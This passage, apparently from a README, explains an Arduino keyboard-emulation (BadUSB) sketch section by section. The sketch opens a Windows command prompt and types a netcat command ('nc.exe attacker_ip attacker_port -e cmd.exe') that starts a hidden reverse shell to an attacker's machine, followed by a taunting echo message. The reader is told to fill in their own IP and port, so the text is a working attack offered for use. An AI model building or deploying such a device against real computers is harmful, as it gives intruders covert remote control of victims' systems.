 ```cpp
  // Empty loop, no repeated actions needed
}
```

### Script Breakdown

#### Initialization and Delay

```cpp
delay(120000);  // Wait for 120 seconds
```

This delay ensures the system has time to stabilize before the script begins executing commands.

#### Simulating Windows Key Press

```cpp
Keyboard.press(KEY_LEFT_GUI);  // Press Windows key
delay(2000);  // Wait for 2 seconds
Keyboard.release(KEY_LEFT_GUI);
```

Presses and releases the Windows key to open the Start menu.

#### Opening Command Prompt

```cpp
Keyboard.print("cmd");  // Type "cmd" to open Command Prompt
Keyboard.press(KEY_RETURN);  // Press Enter
delay(2000);  // Wait for Command Prompt to open
Keyboard.release(KEY_RETURN);
```

Types `cmd` and presses Enter to open Command Prompt.

#### Executing the Reverse Shell Command

```cpp
Keyboard.print("start /b nc.exe attacker_ip attacker_port -e cmd.exe");  // Command to run Netcat in the background
Keyboard.press(KEY_RETURN);  // Press Enter to execute the command
delay(1000);  // Wait for the command to execute
```

Runs Netcat in the background to create a reverse shell connection. Replace `attacker_ip` and `attacker_port` with your actual IP address and port.

#### Sending a Custom Message

```cpp
Keyboard.print("echo Nito was here, Mess with the Best Die like the Rest");  // Custom message
Keyboard.press(KEY_RETURN);  // Press Enter to execute the command
delay(1000);  // Wait for the command to execute
```

Sends a message to the Command Prompt.
